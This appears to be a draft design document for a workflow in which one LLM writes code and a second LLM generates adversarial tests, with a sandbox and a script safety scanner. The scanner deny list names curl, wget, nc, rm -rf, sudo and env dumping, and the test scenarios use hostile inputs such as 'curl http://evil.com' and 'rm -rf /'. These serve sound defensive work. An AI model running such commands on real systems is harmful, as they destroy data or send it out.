

# 180 - Feature: Adversarial Testing Workflow: Separation of Implementation from Verification

<!-- Template Metadata
Last Updated: 2026-01-27
Updated By: Initial LLD creation
Update Reason: New feature for adversarial testing workflow
-->

## 1. Context & Goal
* **Issue:** #80
* **Objective:** Establish a workflow where implementation and verification are performed by separate, adversarial LLMs to catch bugs, import errors, and false claims before code ships to production.
* **Status:** Draft
* **Related Issues:** N/A

### Open Questions

- [ ] Should adversarial tests run on every commit, before PR, or on-demand only?
- [ ] How should Testing LLM performance be scored (reward for bugs found, penalize false positives)?
- [ ] Can Testing LLM suggest fixes or should it be pure adversarial (report only)?
- [ ] What is the threshold for switching from Gemini Flash to Gemini Pro for complex tickets?

## 2. Proposed Changes

*This section is the **source of truth** for implementation. Describes exactly what will be built.*

### 2.1 Files Changed

| File | Change Type | Description |
|------|-------------|-------------|
| `tools/adversarial_test_workflow.py` | Add | Main orchestrator script coordinating verification and adversarial testing |
| `tools/script_safety_scanner.py` | Add | Shell script and Python AST security scanner |
| `tools/templates/verify-template.sh` | Add | Template for verification scripts |
| `tools/templates/test_adversarial_template.py` | Add | Template for adversarial tests |
| `tools/docker/adversarial-sandbox.Dockerfile` | Add | Container definition for sandboxed execution |
| `tests/fixtures/adversarial/mock_gemini_responses.json` | Add | Mocked LLM responses for offline development |
| `tests/fixtures/adversarial/sample_claims.json` | Add | Sample claims for testing |
| `tests/fixtures/adversarial/dangerous_scripts/rm_rf.sh` | Add | Test fixture for security scanner validation |
| `tests/fixtures/adversarial/dangerous_scripts/curl_external.sh` | Add | Test fixture for network access detection |
| `tests/unit/test_adversarial_workflow.py` | Add | Unit tests for orchestrator |
| `tests/unit/test_script_safety_scanner.py` | Add | Unit tests for security scanner |
| `docs/adr/0015-adversarial-testing-workflow.md` | Add | Architecture decision record |
| `docs/reports/adversarial-costs.csv` | Add | Cost tracking for adversarial testing runs |
| `tools/run_issue_workflow.py` | Modify | Add N2.5 adversarial testing gate |
| `docs/wiki/governance-workflow.md` | Modify | Document new gate |
| `CLAUDE.md` | Modify | Add adversarial testing prompts for Implementation LLM |
| `config/gemini.yaml` | Modify | Add enterprise and data_retention settings |

### 2.1.1 Path Validation (Mechanical - Auto-Checked)

*Issue #277: Before human or Gemini review, paths are verified programmatically.*

Mechanical validation automatically checks:
- All "Modify" files must exist in repository
- All "Delete" files must exist in repository
- All "Add" files must have existing parent directories
- No placeholder prefixes (`src/`, `lib/`, `app/`) unless directory exists

**If validation fails, the LLD is BLOCKED before reaching review.**

### 2.2 Dependencies

```toml
# pyproject.toml additions
docker = "^7.0.0"  # Docker SDK for Python
```

### 2.3 Data Structures

```python
# Pseudocode - NOT implementation

class VerificationResult(TypedDict):
    status: Literal["PASS", "FAILED_VERIFICATION", "FAILED_IMPORT", 
                    "FAILED_TIMEOUT", "BLOCKED_DANGEROUS_SCRIPT", 
                    "CANCELLED", "DRY_RUN"]
    stderr: Optional[str]  # Captured stderr on failure
    message: Optional[str]  # Human-readable message
    patterns: Optional[list[str]]  # Dangerous patterns found

class AdversarialResult(TypedDict):
    status: Literal["PASS", "FAILED_ADVERSARIAL", "FAILED_TIMEOUT"]
    failures: list[TestFailure]  # Parsed pytest failures
    claims_violated: list[str]  # Which claims failed

class TestFailure(TypedDict):
    test_name: str  # e.g., "test_vscode_with_spaces_in_path"
    claim: str  # Claim being tested
    error: str  # Error message
    traceback: str  # Full traceback

class WorkflowConfig(TypedDict):
    verification_timeout: int  # Default 300 (5 min)
    adversarial_timeout: int  # Default 600 (10 min)
    memory_limit: str  # Default "2g"
    cpu_limit: str  # Default "2"
    allow_network: bool  # Default False
    dry_run: bool  # Default False
    auto_confirm: bool  # Default False

class DangerousPattern(TypedDict):
    line_number: int
    content: str
    pattern_type: Literal["network", "destructive", "privilege", "exfiltration"]
    description: str
```

### 2.4 Function Signatures

```python
# tools/adversarial_test_workflow.py

def run_adversarial_testing(
    implementation_files: list[Path],
    claims: list[str],
    config: WorkflowConfig,
) -> tuple[VerificationResult, Optional[AdversarialResult]]:
    """
    Main orchestrator function for adversarial testing workflow.
    
    Returns verification result and adversarial result (if verification passed).
    """
    ...

def run_verification_script(
    script_path: Path,
    timeout: int,
    config: WorkflowConfig,
) -> VerificationResult:
    """
    Execute verification script in containerized environment.
    
    Returns structured result with status and failure details.
    """
    ...

def invoke_testing_llm(
    implementation_files: list[Path],
    claims: list[str],
    use_pro_model: bool = False,
) -> str:
    """
    Call Gemini to generate adversarial tests.
    
    Returns generated test file content.
    """
    ...

def run_adversarial_tests(
    test_file: Path,
    timeout: int,
    config: WorkflowConfig,
) -> AdversarialResult:
    """
    Execute adversarial tests in containerized environment.
    
    Returns structured result with failures and violated claims.
    """
    ...

def get_user_confirmation(prompt: str) -> bool:
    """
    Display confirmation prompt and wait for user response.
    
    Returns True if user confirms, False otherwise.
    """
    ...

def parse_pytest_failures(output: str) -> list[TestFailure]:
    """
    Parse pytest output to extract structured failure information.
    
    Maps failures back to claims being tested.
    """
    ...

def sanitize_environment() -> dict[str, str]:
    """
    Create sanitized environment variables for script execution.
    
    Removes PYTHONPATH, API keys, and other sensitive variables.
    """
    ...

# tools/script_safety_scanner.py

def scan_shell_script(script_path: Path) -> list[DangerousPattern]:
    """
    Scan shell script for dangerous patterns.
    
    Checks for network access, destructive commands, privilege escalation.
    """
    ...

def scan_python_ast(file_path: Path) -> list[DangerousPattern]:
    """
    Perform AST-based analysis of Python scripts.
    
    Rejects dangerous imports and function calls.
    """
    ...

def is_external_ip(target: str) -> bool:
    """
    Check if a URL or IP is external (not localhost/internal).
    
    Used to detect network exfiltration attempts.
    """
    ...

def scan_script_for_dangers(script_path: Path) -> list[DangerousPattern]:
    """
    Main entry point for script safety scanning.
    
    Dispatches to appropriate scanner based on file type.
    """
    ...
```

### 2.5 Logic Flow (Pseudocode)

```
FUNCTION run_adversarial_testing(implementation_files, claims, config):
    
    1. IF config.dry_run THEN
        - Display verification script contents
        - Display claims to be tested
        - RETURN DRY_RUN result
    
    2. Load verification script from implementation
    
    3. dangerous_patterns = scan_script_for_dangers(verification_script)
       IF dangerous_patterns THEN
           - Display blocked patterns with line numbers
           - IF NOT config.allow_dangerous THEN
               RETURN BLOCKED_DANGEROUS_SCRIPT result
           - ELSE
               Get user confirmation for dangerous override
    
    4. IF NOT config.auto_confirm THEN
        - Display script content preview
        - Get user confirmation
        - IF not confirmed THEN RETURN CANCELLED result
    
    5. verification_result = run_verification_script(script, config)
       
       IF verification_result.status == FAILED_IMPORT THEN
           - Parse stderr for specific import error
           - RETURN immediately with FAILED_IMPORT
       
       IF verification_result.status == FAILED_TIMEOUT THEN
           - RETURN with timeout message
       
       IF verification_result.status != PASS THEN
           - RETURN verification_result
    
    6. adversarial_tests = invoke_testing_llm(implementation_files, claims)
       - Write generated tests to temp file
    
    7. adversarial_result = run_adversarial_tests(test_file, config)
       
       IF adversarial_result.status == FAILED_ADVERSARIAL THEN
           - Map failures to specific claims
           - Format failure report
       
       RETURN adversarial_result

FUNCTION run_verification_script(script_path, timeout, config):
    
    1. Build Docker command:
        - docker run --rm
        - --network=none (unless config.allow_network)
        - --memory={config.memory_limit}
        - --cpus={config.cpu_limit}
        - -v {workspace}:/workspace:rw
        - adversarial-sandbox
        - bash {script_path}
    
    2. TRY
        result = subprocess.run(docker_cmd, timeout=timeout, capture_output=True)
    CATCH TimeoutExpired:
        RETURN FAILED_TIMEOUT result
    
    3. IF result.returncode != 0 THEN
        stderr = result.stderr.decode()
        IF "ImportError" in stderr OR "ModuleNotFoundError" in stderr THEN
            RETURN FAILED_IMPORT with stderr
        RETURN FAILED_VERIFICATION with stderr
    
    4. RETURN PASS result

FUNCTION scan_shell_script(script_path):
    
    patterns = []
    dangerous_commands = {
        "curl": "network",
        "wget": "network", 
        "nc": "network",
        "rm -rf": "destructive",
        "sudo": "privilege",
        "su ": "privilege",
        "env": "exfiltration",
        "printenv": "exfiltration"
    }
    
    FOR line_num, line IN enumerate(script_content):
        FOR cmd, pattern_type IN dangerous_commands:
            IF cmd in line THEN
                IF pattern_type == "network" AND is_external_ip(line) THEN
                    patterns.append(DangerousPattern(...))
                ELIF pattern_type != "network" THEN
                    patterns.append(DangerousPattern(...))
    
    RETURN patterns
```

### 2.6 Technical Approach

* **Module:** `tools/adversarial_test_workflow.py`
* **Pattern:** Pipeline pattern with fail-fast semantics
* **Key Decisions:**
  - Mandatory containerization prevents host compromise
  - Fail-fast on import errors reduces wasted Testing LLM calls
  - User confirmation prevents accidental execution
  - Timeout enforcement prevents runaway processes

### 2.7 Architecture Decisions

| Decision | Options Considered | Choice | Rationale |
|----------|-------------------|--------|-----------|
| Script execution location | Host machine, VM, Container | Container (Docker) | Isolation without VM overhead; mandatory for security |
| Testing LLM selection | Single model, Tiered models | Tiered (Flash/Pro) | Cost optimization while preserving quality for complex tickets |
| Confirmation model | Always confirm, Never confirm, Configurable | Configurable with safe defaults | Flexibility for CI while protecting interactive users |
| Failure detection | Exit code only, Parse stderr, Structured output | Parse stderr | Rich error information for better feedback loops |

**Architectural Constraints:**
- Must integrate with existing governance workflow (N2.5 gate)
- Cannot store proprietary code on external LLM services (requires ZDR)
- Must support offline development via mocked fixtures

## 3. Requirements

1. **Mandatory containerization:** All LLM-generated scripts execute in Docker container
2. **User confirmation:** Scripts require explicit approval before execution (unless `--auto-confirm`)
3. **Dry-run mode:** Preview script content without execution via `--dry-run`
4. **Timeout enforcement:** 5 minutes for verification, 10 minutes for adversarial tests
5. **Import error detection:** Halt workflow immediately on ImportError/ModuleNotFoundError
6. **Security scanning:** Block dangerous commands before confirmation prompt
7. **Environment isolation:** Sanitize PYTHONPATH, API keys before execution
8. **Adversarial test generation:** Testing LLM writes unmocked tests targeting claims
9. **Failure reporting:** Clear output showing exact test failure and claim violated
10. **Cost tracking:** Log per-ticket adversarial testing costs to CSV

## 4. Alternatives Considered

| Option | Pros | Cons | Decision |
|--------|------|------|----------|
| Run scripts on host machine | Simpler setup, faster execution | Security risk, environment contamination | **Rejected** |
| Single LLM for both roles | Lower cost, simpler workflow | Conflict of interest, same blind spots | **Rejected** |
| VM-based isolation | Stronger isolation than containers | Higher overhead, slower startup | **Rejected** |
| Docker-based containerization | Good isolation, fast startup, industry standard | Requires Docker installed | **Selected** |
| Always require confirmation | Maximum safety | Poor CI experience | **Rejected** |
| Configurable confirmation | Flexibility for different contexts | Slightly more complex | **Selected** |

**Rationale:** Container-based execution provides strong security isolation with acceptable performance overhead. Tiered LLM approach balances cost and quality. Configurable confirmation supports both interactive and automated use cases.

## 5. Data & Fixtures

### 5.1 Data Sources

| Attribute | Value |
|-----------|-------|
| Source | Implementation LLM output, Testing LLM (Gemini) output |
| Format | Python files, Shell scripts, JSON claims |
| Size | Typically <100KB per request |
| Refresh | Per-ticket execution |
| Copyright/License | Generated content, project license applies |

### 5.2 Data Pipeline

```
Implementation LLM ──generates──► Verification Script ──executes in container──► Result
                                                                                    │
                                                                                    ▼ (if pass)
Implementation Code + Claims ──sent to──► Testing LLM ──generates──► Adversarial Tests
                                                                            │
                                                                            ▼
                                                        Execute in container ──► Final Result
```

### 5.3 Test Fixtures

| Fixture | Source | Notes |
|---------|--------|-------|
| `mock_gemini_responses.json` | Generated | Sample adversarial test outputs for offline testing |
| `sample_claims.json` | Generated | Example claims for testing claim parsing |
| `dangerous_scripts/*.sh` | Generated | Test fixtures for security scanner validation |

### 5.4 Deployment Pipeline

Development → Local Docker execution → CI with containerized tests → Production governance workflow

**External data:** Gemini API requires Enterprise endpoint with Zero Data Retention (ZDR) policy.

## 6. Diagram

### 6.1 Mermaid Quality Gate

Before finalizing any diagram, verify in [Mermaid Live Editor](https://mermaid.live) or GitHub preview:

- [x] **Simplicity:** Similar components collapsed (per 0006 §8.1)
- [x] **No touching:** All elements have visual separation (per 0006 §8.2)
- [x] **No hidden lines:** All arrows fully visible (per 0006 §8.3)
- [x] **Readable:** Labels not truncated, flow direction clear
- [ ] **Auto-inspected:** Agent rendered via mermaid.ink and viewed (per 0006 §8.5)

**Auto-Inspection Results:**
```
- Touching elements: [x] None / [ ] Found: ___
- Hidden lines: [x] None / [ ] Found: ___
- Label readability: [x] Pass / [ ] Issue: ___
- Flow clarity: [x] Clear / [ ] Issue: ___
```

*Reference: [0006-mermaid-diagrams.md](0006-mermaid-diagrams.md)*

### 6.2 Diagram



## 7. Security & Safety Considerations

### 7.1 Security

| Concern | Mitigation | Status |
|---------|------------|--------|
| Arbitrary code execution | Mandatory Docker containerization with resource limits | Addressed |
| Network exfiltration | `--network=none` by default, explicit flag required | Addressed |
| Filesystem compromise | Mount only workspace as writable, system paths read-only | Addressed |
| Malicious script injection | Pre-execution shell/AST scanning, user confirmation | Addressed |
| API key leakage | Environment sanitization before execution | Addressed |
| Privilege escalation | Container runs as non-root, `sudo`/`su` blocked | Addressed |
| Data exfiltration to LLM | Gemini Enterprise with Zero Data Retention (ZDR) | Addressed |

### 7.2 Safety

| Concern | Mitigation | Status |
|---------|------------|--------|
| Runaway processes | 5/10 minute timeouts enforced via subprocess | Addressed |
| Resource exhaustion | Docker memory (2GB) and CPU (2 cores) limits | Addressed |
| Infinite loops | Timeout enforcement terminates hung processes | Addressed |
| Accidental execution | User confirmation required by default | Addressed |
| Corrupted workspace | Container isolation, workspace-only write access | Addressed |

**Fail Mode:** Fail Closed - Any security concern blocks execution until explicitly overridden

**Recovery Strategy:** On timeout or crash, container is terminated and workspace is preserved. User can inspect partial results and retry.

## 8. Performance & Cost Considerations

### 8.1 Performance

| Metric | Budget | Approach |
|--------|--------|----------|
| Verification time | < 5 minutes | Timeout enforcement, fail-fast on import errors |
| Adversarial test time | < 10 minutes | Timeout enforcement, focused test generation |
| Container startup | < 5 seconds | Pre-built Docker image, local caching |
| LLM response time | < 60 seconds | Gemini Flash for standard tickets |

**Bottlenecks:** 
- Container cold start on first run (~10-30s)
- LLM API latency for adversarial test generation

### 8.2 Cost Analysis

| Resource | Unit Cost | Estimated Usage | Monthly Cost |
|----------|-----------|-----------------|--------------|
| Gemini Flash API | ~$0.075/1M input tokens | 50 tickets × 10K tokens | ~$0.50 |
| Gemini Pro API | ~$1.25/1M input tokens | 5 complex tickets × 20K tokens | ~$0.15 |
| Docker execution | Local compute | N/A | $0 |

**Cost Controls:**
- [x] Use Gemini Flash by default, Pro only for `complexity:high` tickets
- [x] Skip adversarial testing for trivial changes (documentation-only)
- [x] Cache adversarial test results for unchanged implementation files
- [x] `--max-cost` flag to skip if estimated cost exceeds threshold
- [x] Log costs to `docs/reports/adversarial-costs.csv`

**Worst-Case Scenario:** 100 tickets/month with Gemini Pro = ~$2.50/month. Acceptable for bug prevention value.

## 9. Legal & Compliance

| Concern | Applies? | Mitigation |
|---------|----------|------------|
| PII/Personal Data | No | No user data processed |
| Third-Party Licenses | Yes | Docker (Apache 2.0), Gemini API (Enterprise agreement) |
| Terms of Service | Yes | Gemini Enterprise with ZDR configured |
| Data Retention | Yes | ZDR policy ensures no code retained by Gemini |
| Export Controls | No | No restricted algorithms |

**Data Classification:** Internal - Implementation code analyzed but not stored externally

**Compliance Checklist:**
- [x] No PII stored without consent
- [x] All third-party licenses compatible with project license
- [x] External API usage compliant with provider ToS (Gemini Enterprise ZDR)
- [x] Data retention policy documented (ZDR = none)

## 10. Verification & Testing

*Ref: [0005-testing-strategy-and-protocols.md](0005-testing-strategy-and-protocols.md)*

**Testing Philosophy:** Strive for 100% automated test coverage. Manual tests are a last resort.

### 10.0 Test Plan (TDD - Complete Before Implementation)

**TDD Requirement:** Tests MUST be written and failing BEFORE implementation begins.

| Test ID | Test Description | Expected Behavior | Status |
|---------|------------------|-------------------|--------|
| T010 | test_dry_run_shows_script_content | Display script without execution | RED |
| T020 | test_user_confirmation_blocks_execution | Wait for confirmation before running | RED |
| T030 | test_dangerous_script_blocked | Block curl to external IP | RED |
| T040 | test_verification_timeout_enforced | Terminate after 5 minutes | RED |
| T050 | test_import_error_detection | Detect ImportError in stderr | RED |
| T060 | test_adversarial_tests_unmocked | Generated tests don't mock subprocess | RED |
| T070 | test_container_isolation | Scripts run in Docker, not host | RED |
| T080 | test_environment_sanitized | PYTHONPATH and API keys cleared | RED |
| T090 | test_failure_maps_to_claim | Failures reference specific claims | RED |
| T100 | test_cost_logging | Costs written to CSV | RED |

**Coverage Target:** ≥95% for all new code

**TDD Checklist:**
- [ ] All tests written before implementation
- [ ] Tests currently RED (failing)
- [ ] Test IDs match scenario IDs in 10.1
- [ ] Test file created at: `tests/unit/test_adversarial_workflow.py`

### 10.1 Test Scenarios

| ID | Scenario | Type | Input | Expected Output | Pass Criteria |
|----|----------|------|-------|-----------------|---------------|
| 010 | Dry-run mode preview | Auto | `--dry-run` flag | Script content displayed, no execution | Status = DRY_RUN, no subprocess calls |
| 020 | User confirmation flow | Auto | Mock input "y" | Proceeds to execution | Confirmation prompt shown |
| 030 | Dangerous script blocked | Auto | Script with `curl http://evil.com` | Blocked with pattern list | Status = BLOCKED_DANGEROUS_SCRIPT |
| 040 | Verification timeout | Auto | Script with `sleep 600` | Terminated after 5 min | Status = FAILED_TIMEOUT |
| 050 | Import error detection | Auto | Script importing nonexistent module | Immediate halt | Status = FAILED_IMPORT, stderr contains error |
| 060 | Adversarial test generation | Auto | Implementation + claims | Tests without mocks | No `unittest.mock` or `@patch` in output |
| 070 | Container isolation | Auto | Any script | Docker command constructed | Command includes `docker run` |
| 080 | Environment sanitization | Auto | Environment with PYTHONPATH | Clean environment | PYTHONPATH not in subprocess env |
| 090 | Failure claim mapping | Auto | Failing test with claim annotation | Failure shows claim | `claims_violated` populated |
| 100 | Cost logging | Auto | Completed workflow | CSV updated | Row added to adversarial-costs.csv |
| 110 | Self-destruct blocked | Auto | Script with `rm -rf /` | Container blocks | BLOCKED_DANGEROUS_OPERATION |
| 120 | AST Python validation | Auto | Python with `os.system()` | Rejected | DangerousPattern returned |

### 10.2 Test Commands

```bash
# Run all automated tests
poetry run pytest tests/unit/test_adversarial_workflow.py tests/unit/test_script_safety_scanner.py -v

# Run only fast/mocked tests (exclude live)
poetry run pytest tests/unit/test_adversarial_workflow.py -v -m "not live"

# Run live integration tests (requires Docker)
poetry run pytest tests/unit/test_adversarial_workflow.py -v -m live

# Run offline mode (with mocked LLM responses)
poetry run pytest tests/unit/test_adversarial_workflow.py -v --offline
```

### 10.3 Manual Tests (Only If Unavoidable)

N/A - All scenarios automated.

## 11. Risks & Mitigations

| Risk | Impact | Likelihood | Mitigation |
|------|--------|------------|------------|
| Docker not installed on developer machine | High | Medium | Provide clear installation instructions, fail gracefully with helpful message |
| Gemini API unavailable | Medium | Low | Mocked fixtures enable offline development, graceful degradation |
| Testing LLM generates ineffective tests | Medium | Medium | Review generated tests, track effectiveness metrics over time |
| Container escape vulnerability | High | Low | Keep Docker updated, use minimal base image, run as non-root |
| False positives in adversarial tests | Low | Medium | Human review before accepting failures, penalty scoring for false positives |
| Cost exceeds budget | Low | Low | `--max-cost` flag, cost tracking, alerts at thresholds |

## 12. Definition of Done

### Code
- [ ] `adversarial_test_workflow.py` orchestrator implemented
- [ ] `script_safety_scanner.py` security scanner implemented
- [ ] Docker sandbox container defined and buildable
- [ ] Verification and adversarial templates created
- [ ] N2.5 gate integrated into governance workflow
- [ ] Code comments reference this LLD

### Tests
- [ ] All test scenarios pass (T010-T120)
- [ ] Test coverage ≥95%
- [ ] Offline mode works with mocked fixtures
- [ ] Self-destruct test validates container isolation

### Documentation
- [ ] ADR 0015 documents architectural rationale
- [ ] Governance workflow wiki updated
- [ ] CLAUDE.md updated with verification script requirements
- [ ] Cost tracking CSV initialized
- [ ] LLD updated with any deviations
- [ ] Implementation Report (0103) completed
- [ ] Test Report (0113) completed

### Review
- [ ] Run 0809 Security Audit - PASS
- [ ] Run 0817 Wiki Alignment Audit - PASS
- [ ] Code review completed
- [ ] User approval before closing issue

### 12.1 Traceability (Mechanical - Auto-Checked)

*Issue #277: Cross-references are verified programmatically.*

Mechanical validation automatically checks:
- Every file mentioned in this section must appear in Section 2.1
- Every risk mitigation in Section 11 should have a corresponding function in Section 2.4

**If files are missing from Section 2.1, the LLD is BLOCKED.**

---

## Appendix: Review Log

*Track all review feedback with timestamps and implementation status.*

### Review Summary

| Review | Date | Verdict | Key Issue |
|--------|------|---------|-----------|
| - | - | - | Awaiting initial review |

**Final Status:** PENDING